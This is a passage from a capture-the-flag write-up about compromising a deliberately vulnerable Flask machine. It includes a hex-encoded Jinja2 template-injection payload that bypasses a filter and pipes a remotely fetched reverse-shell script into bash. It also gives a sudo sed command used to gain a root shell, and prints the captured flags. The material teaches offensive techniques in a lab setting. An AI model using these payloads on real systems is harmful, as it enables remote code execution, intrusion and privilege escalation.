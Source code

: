 4. Set the `?command=` value to your payload, and send the request:
![Postman2](https://user-images.githubusercontent.com/58345798/210207722-be172d1d-03fd-4ed5-8569-4dca22832036.png)


Looks like we'll have to search a bit more, to find an exploit that bypasses this specific filter. One way to do it is modifying our first payload using Jinja2's `attr()` filter, accepting hex encoded format.
Our final payload looks like this :
`{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("curl 192.168.56.1:8000/revshell | bash")|attr("read")()}}`

Resend the request... And yes, we've got our shell ! 
```
flaskit@vuln-err-able:~$ whoami
flaskit
flaskit@vuln-err-able:~$ id
uid=1001(flaskit) gid=1001(flaskit) groups=1001(flaskit),27(sudo),33(www-data)
```
We're logged in as a simple user, named `flaskit`, without exploring more than its home directory, we can find the first flag: 
```
flaskit@vuln-err-able:~$ cat user.txt
f7a03995bcbfb00971314293eeac7202
```

## All the way up to root

The last step is getting root privileges. One of the first things that should comes into your mind when it comes to linux privesc, is to check for the `sudo` config. 
```
flaskit@vuln-err-able:~$ sudo -l
Matching Defaults entries for flaskit on vuln-err-able:
env_reset, exempt_group=sudo, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
  
User flaskit may run the following commands on vuln-err-able:
(ALL : ALL) ALL
(ALL) NOPASSWD: /bin/sed
```

Looks like it'll be faster than expected. We can run the `sed` command using sudo without any password required, as the last line of the `sudo -l` output shows us. Doing a simple search on our good ol' [GTFOBins](https://gtfobins.github.io/), we find ([right here](https://gtfobins.github.io/gtfobins/sed/)) that we can exploit the `sed` command to get a root shell !


```
flaskit@vuln-err-able:~$ sudo sed -n '1e exec sh 1>&0' /etc/hosts
id
uid=0(root) gid=0(root) groups=0(root)
```
Et voilà! The challenge is over, you just have to navigate to `/root`, and proudly read `root.txt`'s content.
```
cat root.txt
bf2ae566e364a905320c401ef95528cd
```
